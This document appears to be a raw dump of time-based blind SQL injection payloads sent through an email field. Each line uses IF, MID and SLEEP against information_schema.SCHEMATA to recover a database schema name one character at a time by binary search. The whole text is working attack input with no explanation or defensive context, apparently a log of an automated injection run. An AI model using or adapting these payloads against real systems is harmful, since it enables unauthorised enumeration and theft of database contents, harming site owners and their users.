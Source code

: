 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>124,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=122,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>122,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=121,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=115,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=113,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
